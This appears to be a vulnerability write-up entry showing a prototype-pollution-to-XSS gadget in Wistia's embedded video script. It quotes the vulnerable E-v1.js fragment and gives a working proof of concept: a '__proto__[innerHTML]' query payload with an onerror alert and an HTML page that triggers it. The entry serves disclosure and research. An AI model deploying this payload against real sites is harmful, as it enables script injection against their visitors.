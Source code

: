 ## Wistia Embedded Video

URL: https://wistia.com/support/embed-and-share/video-on-your-website

### Vulnerable code fragment
https://fast.wistia.com/assets/external/E-v1.js
```js
if (this.chrome = r.elem.fromObject({
    id: r.seqId('wistia_chrome_'),
    class: 'w-chrome',
    style: r.generate.relativeBlockCss(),
    tabindex: -1
})
...
b = function e(t) {
  ...
  var i = t.tagName || 'div'
  ...
  var l = document.createElement(i);
  for (var s in t) {
    var d = t[s];
    if ('childNodes' != s && 'tagName' !== s && 'ref' !== s) {
    ...
    else
      'className' === s || 'class' === s ? l.className = d : 'innerHTML' === s ? l.innerHTML = d
```

### PoC
```
?__proto__[innerHTML]=<img/src/onerror=alert(1)>
```

```html
<script>
  Object.prototype.innerHTML = '<img/src/onerror=alert(1)>';
</script>

<script src="https://fast.wistia.com/embed/medias/j38ihh83m5.jsonp" async></script>
<script src="https://fast.wistia.com/assets/external/E-v1.js" async></script>
<div class="wistia_embed wistia_async_j38ihh83m5"></div>
```